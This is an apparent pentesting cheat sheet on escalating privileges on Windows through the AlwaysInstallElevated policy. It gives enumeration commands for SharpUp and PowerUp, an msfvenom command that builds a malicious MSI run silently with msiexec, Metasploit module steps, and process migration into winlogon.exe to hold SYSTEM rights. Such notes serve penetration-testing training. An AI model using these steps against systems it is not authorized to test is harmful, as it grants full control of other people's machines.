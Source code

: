 # AlwaysInstallElevated Exploitation

## Target requirements

- The target needs to have those values in the registry: 
  - In `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
  - In `Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
This means that installation packages are installed with elevated privileges 

## Exploitation

- You should have a shell with covenant or metasploit or netcat.  
We will use Covenant and Metasploit here.

### Covenant

#### Enumerate with SharpUp audit

- In your shell type `SharpUp audit`
- In the results you should see this:
  ```
  === AlwaysInstallElevated Registry Keys ===

    HKLM:    1
    HKCU:    1
  ```

#### Enumerate with powerup

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- Type `powershell invoke-allchecks` in your shell
- We should see this
  ```
  [*] Checking for AlwaysInstallElevated registry key...
  AbuseFunction : Write-UserAddMSI

  ```

#### Exploitation

- generate a payload with msfvenom `msfvenom -p windows/exec CMD="" -f msi -o exploitalwaysinstalled.msi` between the quotes put copy and paste an encoded launcher.
- Upload your file in the target using Upload command from covenant (type `Upload` and enter, file the file path for the target and browse to the file in your attack machine)
- run it using `shell msiexec /quiet /qn /i exploitalwaysinstalled.msi
- We should get a prompt for another reverse shell in our grunts as an elevated user
  ```
  > whoami
  NT AUTHORITY\SYSTEM
  ```

### Metasploit

- Interact with a session you should already have from initial foothold `sessions -i num-of-session`

#### Enumerate

- Launch `run post/multi/recon/local_exploit_suggester`
- You should see: `- exploit/windows/local/always_install_elevated: The target is vulnerable.`

#### Exploitation

- Background your session with ctrl z
- Type `use exploit/windows/local/always_install_elevated`
- set session to the number of the session you have on your target 
- type `exploit -j`
- list the sessions you should have another one running as authority system
- type ps and look for a process under session 1 so that we can migrate to it 
- We can use winlogon.exe ` 620   520   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe`
- Migrate to it using `migrate PID-number` in our example it is going to be `migrate 520`

## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
